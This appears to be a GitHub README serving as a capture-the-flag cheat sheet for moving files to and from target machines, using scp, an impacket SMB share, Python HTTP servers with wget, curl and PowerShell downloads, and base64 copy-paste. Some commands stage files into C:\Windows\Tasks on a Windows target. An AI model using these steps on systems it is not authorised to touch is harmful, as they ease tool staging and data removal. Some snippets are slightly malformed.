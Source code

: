 # File-Transfer
## Collection of File Transfer possibilities

In some CTF's it is useful to have a Plan B if you need to transfer a file from or to a remote machine.

## SCP
The bestcase scenario is scp over a SSH connection.
```bash
scp user@sourceIP:/PATH/file.ext user@destinationIP:/Path/file.ext
``

## SMBserver
Start a SMBserver in you current directory [.] to copy & paste files back and forth
```bash
sudo impacket-smbserver -smb2support share[NAME] .[/PATH] 
```
Copy from Windows Target
```bash
copy .\file.ext \\sourceIP\share\file.ext
```
Copy to a Windows Target
```bash
copy \\sourceIP\share\file.ext .\file.ext
```
Make sure to stop the SMBserver after transfer because everybody in that network has access to your SMBserver

## Python Server
It is also possible to start a Python3 http.server and transfer some files with wget or IWR.
At the Source
```bash
python3 -m http.server 8080
```
At the destination Linux
```bash
wget http://sourceIP:8080/file.ext
curl http://sourceIP:8080/file.ext -o /PATH/fiile.ext
```
At the destination Windows
```bash
powershell.exe IEX(New-Object Net.WebClient).DownloadFile('http://sourceIP/file.ext','C:\Windows\Tasks\file.ext')
iwr "http://sourceIP/file.ext" -outfile "C:\Windows\Tasks\file.ext"
```
## HTML
If your target has a public facing Webpage you can use it to download the files.
```bash
cp *.ext /var/www/html/
chmod 0777 /var/www/html/*.ext
http://source.URL/file.ext
```

## Base64
If all else fails, there is always plan y. <br>
Convert a file or program to a Base64 string copy & paste it to the Target and deconvert it. <br>
<br>
On Linux
```bash
base64 file.ext > fileb64.txt
cat fileb64.txt
```
On Windows
```bash
[convert]::ToBase64String((Get-Content -path "file.ext" -Encoding byte))
```
Copy the Base64 string.
```bash
vim string.b64
```
Paste the string to any Text-Editor.
```bash
base64 -d string.b64 > file.ext
```
